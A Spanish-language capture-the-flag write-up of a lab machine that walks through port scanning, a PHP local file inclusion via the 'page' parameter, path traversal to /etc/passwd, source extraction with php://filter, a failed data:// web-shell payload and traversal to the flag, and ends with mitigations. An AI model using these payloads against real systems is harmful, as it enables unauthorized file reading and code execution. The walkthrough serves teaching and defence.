







## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Dificultad**|Fácil|
|**IP Objetivo**|172.17.0.2|
|**Autor**|elc0ket|

## Técnicas usadas

- Escaneo de puertos y enumeración de servicios con `nmap`
- Identificación de LFI (Local File Inclusion) vía parámetro `page`
- Path traversal para lectura arbitraria de archivos (`/etc/passwd`)
- Lectura de código fuente PHP mediante wrapper `php://filter/convert.base64-encode`
- Intentos de escalada LFI → RCE: log poisoning (Apache), wrapper `data://`, session poisoning (descartados)
- Fuzzing de parámetros con `ffuf` para enumerar páginas incluibles
- Explotación directa de traversal para lectura de flag


```
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



```
nmap -p 80 -sC -sV -oN allports 172.17.0.2      
```



```
http://172.17.0.2/
```



En el codigo fuente



## 1. Descubrimiento del LFI

La aplicación expone un sistema de navegación basado en el parámetro `page`:

```
http://172.17.0.2/index.php/?page=home
http://172.17.0.2/index.php/?page=menu
http://172.17.0.2/index.php/?page=orders
http://172.17.0.2/index.php/?page=about
```

Se prueba path traversal directo:

```
http://172.17.0.2/index.php/?page=../../../../etc/passwd
```



**LFI confirmado.** No hay sanitización de `../` en el parámetro.

---

## 2. Análisis del código fuente vulnerable

Usando el wrapper `php://filter` se extrae el código de `index.php`:

```
http://172.17.0.2/index.php/?page=php://filter/convert.base64-encode/resource=index.php
```

Decodificado, la lógica vulnerable es:

```php
$page = isset($_GET['page']) ? $_GET['page'] : 'home';

if($page == 'home') {
    // contenido estático
} else {
    // VULNERABLE: Agrega .php solo si no tiene extensión
    if(strpos($page, '.') === false) {
        $page .= '.php';
    }
    include($page);
}
```

**Debilidad clave:** el filtro solo comprueba si la cadena contiene **algún** punto (`.`) para decidir si añade `.php`. No valida ni bloquea `../`, por lo que:

- Cualquier ruta con puntos (como `../../etc/passwd` o wrappers `php://filter/convert...`) se pasa sin modificar al `include()`.
- Nombres simples sin extensión (`menu`, `orders`) sí requieren añadir manualmente el punto en la petición (p. ej. `resource=menu.php`) para no acabar con doble sufijo.

---

## 3. Intentos de escalada a RCE (documentados, descartados)

Se intentaron las vías estándar de LFI → RCE antes de encontrar la solución final:

**a) Apache log poisoning** — descartado

```
?page=../../../../var/log/apache2/access.log
?page=../../../../var/log/apache2/error.log
```

Ambos devuelven `failed to open stream: No such file or directory`. El contenedor probablemente loguea a stdout/stderr en lugar de a disco (patrón común en imágenes Docker minimalistas), no hay fichero de log que envenenar.

**b) Wrapper `data://` remoto** — descartado

```
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pg==&cmd=id
```

```
Warning: data:// wrapper is disabled in the server configuration by allow_url_include=0
```

`allow_url_include=0` en la configuración de PHP bloquea este vector.

**c) Enumeración de páginas adicionales vía fuzzing**


```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 32 -x php,html,txt,zip

```



Solo se confirmaron las páginas ya conocidas del menú. Se revisó el código fuente de `menu.php`, `orders.php` y `about.php` vía `php://filter`: ninguna procesa `GET‘,‘_GET`, ` G​ET‘,‘_POST` ni `$_SESSION`, por lo que no hay ningún punto de reflexión de input de usuario explotable para _session poisoning_.

---

## 4. Explotación final: traversal directo a la flag

Ante la ausencia de un vector viable a RCE, se probó el traversal más simple posible directamente sobre el objetivo del CTF:

```
http://172.17.0.2/index.php/?page=../flag.txt
```



---

## Resumen de Ataque

1. Se identificó un parámetro `page` en `index.php` vulnerable a **LFI** por falta de sanitización de `../`.
2. Se confirmó leyendo `/etc/passwd`, y se extrajo el código fuente completo de la aplicación vía `php://filter/convert.base64-encode`, revelando la lógica exacta del filtro (solo bloquea por presencia de un punto, no por traversal).
3. Se intentó escalar a **RCE** por las vías habituales: log poisoning (sin éxito — logs no persisten en disco), wrapper `data://` (bloqueado por `allow_url_include=0`), y se buscó un vector de _session poisoning_ enumerando todas las páginas del menú vía fuzzing — ninguna reflejaba input de usuario.
4. Al no encontrarse camino a ejecución de código, se probó el **traversal directo hacia la flag** (`../flag.txt`), que resultó ser la solución: la flag era accesible con un simple ascenso de un directorio, sin necesidad de escalar a RCE.

**Cadena de ataque:** Parámetro `page` sin sanitizar → LFI confirmado → Extracción de código fuente → Intentos de RCE descartados (logs no persistentes, `allow_url_include=0`, sin reflejo de input) → Traversal directo → Flag

## Medidas de Mitigación

- **No construir rutas de inclusión a partir de input de usuario.** Usar un mapa fijo de páginas permitidas (whitelist), por ejemplo un `array` con las claves `home`, `menu`, `orders`, `about` que apunte a rutas fijas en el servidor, ignorando cualquier valor no reconocido.
- **Nunca usar `include()`/`require()` con datos controlables por el cliente**, ni siquiera con comprobaciones parciales como la de presencia de un punto — es trivialmente evadible.
- **Deshabilitar wrappers peligrosos** si no son necesarios: `allow_url_include=0` (ya estaba bien configurado aquí) y considerar restringir también `php://filter` si no aporta valor funcional.
- **Aplicar `open_basedir`** en la configuración de PHP para limitar el acceso del proceso a un directorio específico, evitando que el traversal salga de `/var/www/html`.
- **Registrar logs en disco de forma persistente y con permisos correctos** — aunque en este caso jugó a favor de la seguridad, depender de eso no es una mitigación real, es la ausencia casual de un vector.
- **No dejar archivos sensibles (flags, backups, credenciales) accesibles por rutas predecibles** relativas al directorio web.